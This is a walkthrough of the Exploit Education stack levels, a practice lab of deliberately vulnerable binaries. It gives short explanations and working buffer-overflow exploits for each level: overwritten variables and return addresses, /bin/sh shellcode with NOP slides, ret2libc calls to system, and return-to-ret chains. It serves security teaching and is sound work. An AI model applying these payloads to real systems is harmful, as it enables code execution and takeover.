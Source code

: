 ```yaml
---
title: exploit education stack levels
date: 2020-03-23
---
```


# stack0:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var.

``` python -c " print 'A' * (64 + 4)" | stack0 ```


# stack1:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var to the specified hex.

```./stack1 $(python -c " print 'A' * 64 + 'dcba'") ```


# stack2:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var to the specified hex.

```
export GREENIE="`echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r"`"
./stack2 
```


# stack3:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the function pointer to point to our function

``` python -c "print ('A' * 64) + '\x24\x84\x04\x08'" | ./stack3 ```


# stack4:
This time we have to overwrite the return address to call win.
when glibc calls main, the call instruction push the address of the next
instruction on the stack to return to after main finish.
inside main we have a buffer of size 64. since there's not much memory
allocation happening, we just need to overwrite the buffer and old ebp
on the stack and the return address (overwrite the return address with address of `win` func).

The buffer size is 64 wide. if we write 4 bytes pass the buffer 
we overwrite the old ebp and 4 bytes more to overwrite the return address
with our `win` function address.

```python -c "print 'A' * 76 + '\xf4\x83\x04\x08' " | ./stack4 ```



# stack5:
This time we have to overwrite the return address to execute shellcode.
when glibc calls main, the call instruction push the address of the next
instruction on the stack to return to after main finish.
we just need to overwrite the return address on the stack with an adress to return to.
then inject our code and point the return adress to the start of our code
we use `nop` instruction to help us add padding to the stack in case we need padding.
The `\xCC` opcode is for debuging (it makes your program execute 1 instruction at a time)

The buffer size is 64 wide. if we write 4 bytes pass the buffer 
we overwrite the old ebp and 4 bytes more to overwrite the return address
with our `shellcode`.

```
# put the shell code between the padding 
# nop_slide = "\x90" * 44  
# eip = "\xa0\xf7\xff\xbf"
# print nop_slide + "\xCC" * 32 + eip * 4
# print nop_slide + shell_code + eip * 8

# -------------------

# put the shell code at the end
padding = "A" * 76
eip = "\xc0\xf7\xff\xbf"
nop_slide = "\x90" * 4
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  
print padding + eip + nop_slide + shell_code
`$> (python script; cat) | ./stack5`
```


# stack6:
Similer to the previouse level. but this time we can't return to the stack.
however, we still can control the ret pointer. 
One approch to solve this level is ret2libc

Approch: ret2libc
This approch says that we need to return to some useful function in libc.
so, we can use (system) function to help us execute a shell.
`To find address of system, run the binary in gdb, break on main and x/ system`
second, we need `/bin/sh` string to pass to system. use strings to
find strings in libc and grep for /bin/sh.
`strings -t x /lib/libc.so` this will return the offset of /bin/sh
then in gdb add the offset to address of libc to find address. To find the address
of libc, in gdb, type `info proc map`.

```
Our stack will look like this:
STACK 
ret -> address of system (ret of getpath func)
ret -> address to return to when system finish
arg -> address of /bin/sh

padding = "A" * 0x50
system  = struct.pack("I", 0xb7ecffb0)
ret     = "AAAA"
bin_sh  = struct.pack("I", 0xb7fb63bf)

print padding + system + ret + bin_sh
`$> (python script; cat) | ./stack6`
```

Approch 2: return to return pointer

This approch is a little confusing. what return to return pointer means, is
instead of providing a stack address to return to, we could provide the return
address to return to and then slide down to a stack address.

for example, we overwrite the return address with the address of 
return instruction. when our function returns, it's going to pop the return
address and jump to it which in that case is the return instruction itself.
we could continue doing that and provide a stack address at the end to jump to
where we have our shell code.

```
ret_instruction_addr    = struct.pack("I", 0x080484f9) * 0x50
stack_addr              = struct.pack("I", 0xbffff8ec)
nop_slid                = "\x90" * 0x50
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print ret_instruction_addr + stack_addr + nop_slid + shell_code

`$> (python script; cat) | ./stack6`
```



# stack7:
This one is similer to the previouse one but this time you can't return to libc.
however, we still can return to the address of our return instruction in getpath.
since we have seen how to do that alread, this time, I want to return to address
of return instruction but instead of executing shell code, I want to call libc
`system` function.

one thing I want to say is we don't have to return to address of getpath return,
we could return to other return instruction address inside our `.text section.


```
buffer = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
buffer += struct.pack("I", 0x08048544) # address of getpath ret instruction
buffer += struct.pack("I", 0xb7ecffb0) # address of system
buffer += "AAAA" # return address after system func
buffer += struct.pack("I", 0xb7fb63bf) # address of /bin/sh

print buffer
```


